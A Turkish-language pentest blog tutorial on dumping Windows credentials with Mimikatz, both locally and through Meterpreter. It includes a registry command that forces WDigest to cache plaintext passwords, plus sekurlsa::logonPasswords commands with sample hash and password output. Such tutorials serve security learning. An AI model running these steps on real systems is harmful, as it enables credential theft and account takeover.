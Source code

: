```yaml
---
layout: post
section-type: post
title: TR - Mimikatz
category: Pentest
tags: [ 'Security', 'Tool' ]
---
```


Merhaba, bugünkü yazımda [Mimikatz](https://github.com/gentilkiwi/mimikatz) isimli tool ile Windows sistemlerde kullanıcı parolalarını elde etmekten bahsedeceğim. <u>DİKKAT: Mimikatz'ı kullanabilmek için yönetici haklarına sahip olmanız gerekmektedir.

Kendisini anlatmadan önce Windows sistemler hakkında birkaç bilgi vermeliyim. Hadi başlayalım...


## Windows Sistemlerde Parolaların Saklanması

Windows sistemlerde, tahmin edeceğiniz gibi parolalar text olarak (açık halde) tutulmuyor,  şifrelenerek kaydediliyor.
Oturum açma sırasında, kullanıcı adı ve parola kontrolünü System32 dizini altında bulunan LSASS.exe (Local Security Authority Subsystem Service) üstleniyor. Kontrol sırasında, kullanıcıdan alınan veriler [SAM](https://en.wikipedia.org/wiki/Security_Account_Manager) (Security Account Manager) ve [LDAP](https://www.varonis.com/blog/the-difference-between-active-directory-and-ldap/) (Lightweight Directory Access Protocol) dosyasındaki veriler ile karşılaştırılıyor. Eğer veriler eşleşir ise, kullanıcı sisteme dahil edilirken aynı zamanda kullanıcıya ait parola bilgisi de (NTLM Hash ve şifrelenmiş parola) hafızada saklanır.

Eğer hafızadaki o veri ele geçirilip başka bir LSASS oturumuna enjekte edilirse kimlik doğrulama aşaması atlatılarak sisteme giriş yapılabilir.

## Önemli Bir Nokta

Belirtmekte fayda gördüğüm bir nokta var. Mimikatz Windows 8.1 ve üstü sürümlerde bu zaafiyet direkt olarak sömürülemiyor. Birkaç önlem alınmış. Ancak tabiki atlatılabilir bir önlem.

Eğer Windows 8.1 sonrası bir sürümü kullanıyorsanız ya da KB2871997 güncellemesini yüklediyseniz, aşağıdaki aşamalara geçmeden önce yönetici olarak Windows Shell'de şu komutu çalıştırmalısınız. Çünkü “UseLogonCredential” DWORD değeri regeditte gözükmez.

    reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1

Bu adım da Wimdows 8.1 ve üstü sürümleri kullananlar için geçerli. Oturumu kapatıp açmanız gerekiyor. İşin ironik kısmı burası. Bizim amacımız parolayı elde etmek iken, bunu nasıl yapacağız. Açıkçası yapılması gereken şey, oturumun tekrar açılmasını sağlayarak Mimikatz'ın parolaya ulaşabilmesini sağlamak. Burada yapılması gerekeni sizlere bırakıyorum.

Şimdi asıl işimize dönebiliriz.


## Mimikatz'ın Fiziksel Saldırılarda kullanımı

Burada, bilgisayara fiziksel erişiminizin olduğunu düşünüyoruz. İlk yapmanız gereken Mimikatz'ı indirmek. [Şu](https://github.com/gentilkiwi/mimikatz/releases) linkten zip dosyasını indirerek exe dosyasına ulaşabilirsiniz.

İndirdikten sonra programı açıyoruz ve Mimikatz bizi komut satırında karşılıyor. Hiç beklemeden ilk komutumuzu "privilege::debug" çalıştıralım

      Microsoft Windows [Version 6.1.7600]
      Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

      C:>cd x64
      C:x64>mimikatz.exe
      mimikatz 1.0 x64 (RC)   Traitement du Kiwi (Jan 23 2013 00:14:12)
      http://blog.gentilkiwi.com/mimikatz

      mimikatz# privilege::debug
      Demande d’ACTIVATION du privilège : SeDebugPrivilege : OK

Ardından, bilgileri elde etmek için "sekurlsa::logonPasswords" komutumuzu çalıştırıyoruz. (Buradaki kodların bir kısmı Celal Erdik'in [BGA'daki](https://www.bgasecurity.com/2013/01/mimikatz-ile-windows-sistemlerde/) yazısından alınmıştır. Verdiği bilgilerden ötürü teşekkür ederim.)

      mimikatz# sekurlsa::logonPasswords full

      Authentification Id         : 0;431139
      Package d’authentification  : NTLM
      Utilisateur principal       : F. Celal ERDIK
      Domaine d’authentification  : fcerdix
      msv1_0
      * Utilisateur  : F. Celal ERDIK
      * Domaine      : fcerdix
      * Hash LM      : d1face09e47d03f8aad3b435b51404ee
      * Hash NTLM    : 7d029e287d0e7372ce126253b626f537
      kerberos
      * Utilisateur  : F. Celal ERDIK
      * Domaine      : fcerdix
      * Mot de passe : BenimGizliParolam
      ssp
      wdigest
      * Utilisateur  : F. Celal ERDIK
      * Domaine      : fcerdix
      * Mot de passe : BenimGizliParolam
      tspkg
      * Utilisateur  : F. Celal ERDIK
      * Domaine      : fcerdix
      * Mot de passe : BenimGizliParolam

Yukarıda görmüş olduğunuz üzere parola "BenimGizliParolam"dır.

## Mimikatz'ın Uzaktan Kullanımı

Benim anlatacağım uzaktan erişimde, herhangi bir şekilde hedefte meterpreter oturumu elde edilmiş olmalıdır. Eğer bunu nasıl yapacağınızı bilmiyorsanız şu an sadece mantığını anlamaya çalışmanızı tavsiye ederim.

Meterpreter oturumumuzda ilk önce "getsystem" yazarak sistem derecesinde yetki elde edelim. Bunu kontrol etmek için de "getuid" komutu kullanılabilir. Eğer "getuid" komutunun çıktısında "AUTHORTY\SYSTEM" ifadesini görürseniz, diğer işlemlere devam edebilirsiniz.

Şimdi "load mimikatz" diyerek Mimikatz'ı yükleyelim.

      meterpreter > load mimikatz
      Loading extension mimikatz...success.

Başarılı bir şekilde yüklememizi gerçekleştirdik. "help mimikatz" ile, mimikatz komutları hakkında bilgi alabilirsiniz.

meterpreter > help mimikatz

      Mimikatz Commands
      =================

          Command           Description
          -------           -----------
          kerberos          Attempt to retrieve kerberos creds
          livessp           Attempt to retrieve livessp creds
          mimikatz_command  Run a custom commannd
          msv               Attempt to retrieve msv creds (hashes)
          ssp               Attempt to retrieve ssp creds
          tspkg             Attempt to retrieve tspkg creds
          wdigest           Attempt to retrieve wdigest creds

Mimikatz sadece bunlardan ibaret değil. İçerisinde birçok modül de vardır. Modüllere bakmanın herhangi bir "normal" şekli var mı bilmiyorum ancak yanlış bir modül ismi girerek modüllere ulaşabilirsiniz.

          meterpreter > mimikatz_command -f FAATIIHH::
          Module : 'FAATIIHH' introuvable

          Modules disponibles :
                          - Standard
                crypto    - Cryptographie et certificats
                  hash    - Hash
                system    - Gestion système
               process    - Manipulation des processus
                thread    - Manipulation des threads
               service    - Manipulation des services
             privilege    - Manipulation des privilèges
                handle    - Manipulation des handles
           impersonate    - Manipulation tokens d'accès
               winmine    - Manipulation du démineur
           minesweeper    - Manipulation du démineur 7
                 nogpo    - Anti-gpo et patchs divers
               samdump    - Dump de SAM
                inject    - Injecteur de librairies
                    ts    - Terminal Server
                divers    - Fonctions diverses n'ayant pas encore assez de corps pour avoir leurs propres module
              sekurlsa    - Dump des sessions courantes par providers LSASS
                   efs    - Manipulations EFS

Parolayı elde etmek için

        meterpreter> mimikatz_command -f sekurlsa::logonPasswords -a "full"

komutunu kullanarak, fiziksel sistemdeki gibi bir çıktı ile parolayı elde edebilirsiniz.


            Authentification Id         : 0;431139
            Package d’authentification  : NTLM
            Utilisateur principal       : F. Celal ERDIK
            Domaine d’authentification  : fcerdix
            msv1_0
            * Utilisateur  : F. Celal ERDIK
            * Domaine      : fcerdix
            * Hash LM      : d1face09e47d03f8aad3b435b51404ee
            * Hash NTLM    : 7d029e287d0e7372ce126253b626f537
            kerberos
            * Utilisateur  : F. Celal ERDIK
            * Domaine      : fcerdix
            * Mot de passe : BenimGizliParolam
            ssp
            wdigest
            * Utilisateur  : F. Celal ERDIK
            * Domaine      : fcerdix
            * Mot de passe : BenimGizliParolam
            tspkg
            * Utilisateur  : F. Celal ERDIK
            * Domaine      : fcerdix
            * Mot de passe : BenimGizliParolam

## Bonus

Mimikatz'ın, parolayı elde etmek için hafızadaki verileri kullandığını belirtmiştik. Aynı şekilde mayın tarlası oyunun içeriği de hafızada güncel olarak saklanır. Eğer mayın tarlası oyununu başlatıp, Mimikatz'da şu

            mimikatz_command –f winmine::infos

komutu çalıştırırsanız bombaların yerini görebilirsiniz. Bu şekilde de oyunu rahatlıkla bitirirsiniz :)

**Fatih Furkan Hatipoğlu**

&nbsp;

Bana bu kadar bilgi yetmez, daha fazlasını istiyorum diyenler için birkaç tavsiye kaynak:

[BGA - Mimikatz ile Windows Sistemlerde Parolaları Açık Olarak Okuma](https://www.bgasecurity.com/2013/01/mimikatz-ile-windows-sistemlerde/)

[CanYouPwnMe - Mimikatz ](https://canyoupwn.me/tr-mimikatz/)

[Siberoloji - MSF Mimikatz ](https://siberoloji.github.io/metaspliot-framework-mimikatz/)

[Varonis - What is Mimikatz](https://www.varonis.com/blog/what-is-mimikatz/)
